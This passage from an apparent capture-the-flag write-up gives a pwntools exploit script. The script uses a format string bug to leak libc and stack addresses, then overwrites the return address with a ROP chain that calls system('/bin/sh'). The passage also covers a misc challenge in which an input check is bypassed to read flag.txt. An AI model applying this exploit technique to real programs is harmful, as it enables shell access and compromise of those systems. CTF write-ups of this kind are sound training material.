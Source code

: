 ```python
def overwrite(address, value):
    i = 0
    while value & 0xFFFF:
        locate_boss(
            fmtstr_payload(
                8,
                {address + 2 * i: value & 0xFFFF},
                write_size="short",
            )
        )
        value >>= 16
        i += 1

# locate_boss(b'%21$lu')
locate_boss(b'%21$llX %16$llX')
leaked = rud(b'\n').split(b' ')
libc.address = int16(leaked[0]) - 0x29d90
assert libc.address & 0xfff == 0
li(f"Libc Address: {hex(libc.address)}")
savedrbp = int16(leaked[1])
li(f"Saved RBP: {hex(savedrbp)}")
retaddr = savedrbp + 0x8
rop = ROP(libc)
rop.call(rop.ret.address)
rop.system(next(libc.search(b"/bin/sh\0")))
li(f"Return Address: {hex(retaddr)}")
li(f"{rop.dump()}")
for i, chunk in enumerate(
    [rop.chain()[i : i + 8] for i in range(0, len(rop.chain()), 8)]
):
    overwrite(retaddr + i * 8, u64(chunk))
sla(b'>> ', b'3')
com()
```

### ![chall-sc](https://hackmd.io/_uploads/rJgZ-HH06.png)

Flag: `ENO{WA1T_WHAT_H0W_D1D_Y0U_F1ND_M3???}`

# Misc

## missingcat

### ![chall-sc](https://hackmd.io/_uploads/BkNLPi80p.png)

Given a challenge with the following source:
![chall-sc](https://hackmd.io/_uploads/ryOgBxUA6.png)

Although there is an initial check, the command below will still be executed so we just enter the command that outputs the contents of the flag.txt file, which is tac or cat (The intended one using nl actually).
